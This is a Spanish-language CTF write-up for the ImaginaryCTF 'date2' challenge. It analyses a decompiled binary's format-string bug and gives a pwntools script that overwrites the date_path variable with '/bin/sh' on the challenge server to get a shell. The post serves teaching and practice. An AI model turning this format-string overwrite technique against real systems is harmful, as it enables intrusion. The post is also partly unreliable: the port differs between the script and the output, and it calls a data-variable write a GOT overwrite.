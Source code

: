 ```yaml
---
layout: post
title: ImaginaryCTF date2 - GOT overwrite
author: c4rta
date: 2022-07-30
categories: [Explotacion binaria]
tags: [GOT overwrite, format string]
description: >
  En este articulo resolveremos un ejercicio de explotacion binaria de la pagina ImaginaryCTF donde tenemos de sobreescribir la direccion de GOT de printf
image: 
  path: /assets/img/imaginaryCTF-date2/waifu.jpg
---
```

{:.lead}

## Analizando el binario con Ghidra

Este ejercicio es muy similar al enterior del post de GOT overwrite y para practicar esta perfecto, solo que ahora no podemos ver el codigo fuente del binario, asi que lo que nos toca es analizarlo con ghidra

Lo primero que vamos a hacer es meter el binario a Ghidra la cual pueden descargar desde su repo oficial

```
https://github.com/NationalSecurityAgency/ghidra/releases
```
Despues en la seccion llamada ```Symbool tree``` desplegaremos la carpeta de ```functions``` y le damos click en main, como se ve en la imagen

![](/assets/img/imaginaryCTF-date2/ghidra1.png)

Esto nos arrojara del lado derecho de ghidra el codigo que trato de decompilar donde vemos todo esto:

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  char local_118 [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  puts("What\'s today\'s date?");
  fgets(local_118,0x100,stdin);
  printf(local_118);
  puts("????");
  puts("no smh you are wrong the date is ");
  system(date_path);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Viendo la declaracion de variables en la parte de arriba, osea estas: 

```
long in_FS_OFFSET;
char local_118 [264];
long local_10;
```
Vemos una en particular que se declara como ```char local_118 [264];```, esto es el buffer asi que vamos a renombrar la variable ```local_118``` a ```buffer```, ahora nuestro codigo se ve asi:

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  char buffer [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  puts("What\'s today\'s date?");
  fgets(buffer,0x100,stdin);
  printf(buffer);
  puts("????");
  puts("no smh you are wrong the date is ");
  system(date_path);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Acortanto mas el codigo para mostrar lo que nos interesa queda el codigo asi:

```c
  puts("What\'s today\'s date?");
  fgets(buffer,0x100,stdin);
  printf(buffer);
  puts("????");
  puts("no smh you are wrong the date is ");
  system(date_path);
```
Esto es sencillo de analizar lo que hace el binario es primeramente con ```puts``` mostrar el mensaje de ```What\'s today\'s date?```, despues con ```fgets(buffer,0x100,stdin);``` recibe un input que se guardara en ```buffer``` donde el valor maximo que podemos guardar es ```0x100```, esto pasandolo de hexadecimal a decimal nos da ```256```, despues hay dos ```puts``` que imprimen unas cadenas (nada relevante), y finalmente la funcion ```system``` manda a llamar a lo que tiene ```date_path```, y si en Ghidra le damos doble click sobre ```date_path``` vemos lo siguiente

![](/assets/img/imaginaryCTF-date2/ghidra2.png)

Aqui ya esta potente la cosa, por que se esta mandando a llamar al binario ```date``` desde la funcion ```system``` y se sabe que se esta llamando el binario date ya que la ruta es ```/usr/bin/date```, asi que lo que vamos a hacer es sobreescribir el valor GOT de ```date_path``` por ```/bin/sh``` y como se esta usando la funcion ```system``` nos debe de ejecutar una sh  

### Calculando el offset el buffer

De igual manera que el ejercicio anterior de GOT tenemos de encontrar el offset del buffer a travez de format string, asi que le pasaremos el binario algunas A y algunos format string ```AAAAAAAA %p %p %p %p %p %p %p %p```, cuando lo ejecutemos nos muestra esto

![](/assets/img/imaginaryCTF-date2/vuln1.png)

Si empezamos a contar desde ```0x7ffff7dfda63``` hasta donde empiezan nuestras "A" que es donde esta seleccionado en la imagen nos da como resultado 6, asi que ese es el offset el buffer

## Ejecutando el exploit

EL exploit usado es similar al del post anterior de GOT, lo que cambia es que nos estamos conectando remotamente a eth007.me.

```python

from pwn import *

context.binary = elf = ELF("./vuln")
r = remote("eth007.me", 42042)
r.sendline(fmtstr_payload(6, writes={elf.sym.date_path: u64(b"/bin/sh\x00")}))
r.interactive()
```
Si lo ejecutamos y listamos el contenido podemos ver la flag

```
[+] Opening connection to eth007.me on port 42069: Done
[*] '/home/omarh/Escritorio/vuln'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Switching to interactive mode
no smh you are wrong the date is 
$ ls
flag.txt
```
Eso ha sido todo, gracias por leer ❤

![](/assets/img/imaginaryCTF-date2/waifu.jpg)